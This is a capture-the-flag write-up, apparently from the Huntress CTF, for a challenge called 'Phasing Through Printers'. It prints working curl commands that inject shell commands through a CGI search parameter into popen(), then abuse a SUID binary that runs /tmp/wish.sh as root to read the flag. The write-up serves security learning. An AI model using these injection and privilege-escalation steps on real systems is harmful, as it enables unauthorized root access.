








2025-10-15
📦 Phasing Through Printers

Vulnerability:
Command injection in CGI script (search.c)
User input concatenated directly into popen() command
The search.c program takes user input from the query string, URL-decodes it, and directly concatenates it into a shell command without any sanitization:

Initial Access:
Inject commands via URL parameter q
Running as www-data user

Privilege Escalation:
Found SUID binary: /usr/local/bin/admin_help
Binary executes /tmp/wish.sh as root
Filters for "bad strings" in script
-rwsr-xr-x 1 root root 16416 Sep 29 13:09 admin_help
There's a custom SUID binary called admin_help in /usr/local/bin/ that runs as root, this is our privilege escalation vector.

Exploit:
Create /tmp/wish.sh with payload
Run admin_help to execute as root
Read /root/flag.txt




Looking at the strings output:
It reads from /tmp/wish.sh
It checks for "Bad String in File" (some filtering)
If the check passes, it runs: chmod +x /tmp/wish.sh && /tmp/wish.sh as root (because it's SUID)
The exploit:
Create /tmp/wish.sh with commands we want to run as root
Make sure it doesn't contain whatever "bad string" it's filtering
Run admin_help which will execute our script as root!
┌──(kali㉿kali)-[/mnt/tmp/CTF/2025-Huntress-CTF/15]
└─$ curl "http://10.1.78.17/cgi-bin/search.cgi?q=test;echo+'cat+/root/flag.txt'+>+/tmp/wish.sh"
┌──(kali㉿kali)-[/mnt/tmp/CTF/2025-Huntress-CTF/15]
└─$ curl "http://10.1.78.17/cgi-bin/search.cgi?q=test;/usr/local/bin/admin_help"
flag{93541544b91b7d2b9d61e90becbca309}cat /root/flag.txt /var/www/html/data/printer_drivers.txt
<br>Your wish is my command... maybe :)
<br>
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}